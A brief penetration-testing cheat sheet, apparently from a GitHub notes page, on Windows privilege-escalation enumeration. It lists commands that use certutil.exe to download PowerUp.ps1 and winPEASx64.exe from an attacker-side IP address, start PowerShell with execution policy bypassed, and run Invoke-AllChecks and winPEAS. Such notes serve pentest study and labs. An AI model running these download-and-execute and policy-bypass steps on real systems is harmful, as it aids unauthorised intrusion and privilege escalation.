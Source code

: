 # Automation

## PowerUp


    certutil.exe -urlcache -split -f http://192.168.10.10/PowerUp.ps1

    powershell -ep bypass

    . .\PowerUp.ps1

    Invoke-AllChecks (check all possible vulnerability except plaintext passwd)

## Winpeas.exe (All except plaintext passwd)


Windpeas.exe If .net 4.5 (run otherwise)

    certutil.exe -urlcache -split -f http://192.168.10.10:8080/winPEASx64.exe

    .\winPEASx64.exe
